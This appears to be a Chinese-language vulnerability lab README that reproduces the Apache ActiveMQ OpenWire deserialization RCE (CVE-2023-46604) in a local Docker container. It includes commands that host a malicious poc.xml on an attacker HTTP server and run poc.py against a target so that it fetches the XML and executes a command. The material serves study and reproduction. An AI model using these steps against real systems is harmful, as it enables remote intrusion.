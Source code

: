 # Apache ActiveMQ OpenWire 协议反序列化命令执行漏洞（CVE-2023-46604）

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。

OpenWire协议在ActiveMQ中被用于多语言客户端与服务端通信。在Apache ActiveMQ 5.18.2版本及以前，OpenWire协议通信过程中存在一处反序列化漏洞，该漏洞可以允许具有网络访问权限的远程攻击者通过操作 OpenWire 协议中的序列化类类型，导致代理的类路径上的任何类实例化，从而执行任意命令。

参考链接：

- <https://activemq.apache.org/news/cve-2023-46604>
- <https://xz.aliyun.com/t/12929>
- <https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/>
- <https://forum.butian.net/share/2566>

## 环境搭建

ActiveMQ运行后，默认监听如下两个端口：

| 默认端口      | 默认条件      |
|-----------|-----------|
| 8161  web | 需配置才可远程访问 |
| 61616 tcp | 远程访问      |

反序列化漏洞出现在61616端口中。

执行如下命令启动一个ActiveMQ 5.17.3版本服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8161`检查服务是否运行成功。但实际上利用该漏洞，并不需要能够访问8161端口。

## 漏洞复现

首先，启动一个HTTP反连服务器，其中包含我们的[poc.xml](poc.xml)：

```shell
python3 -m http.server 6666
```

然后，执行[poc.py](poc.py)，传入的三个参数分别是目标服务器地址、端口，以及包含poc.xml的反连平台URL：

```shell
python3 poc.py target port http://ip of http server/poc.xml
```

执行完成后，进入ActiveMQ容器：

```
docker exec cve-2023-46604-activemq-1 ls -l /tmp
```

可见，`touch /tmp/activeMQ-RCE-success`已经被成功执行：

![01.png](01.png)
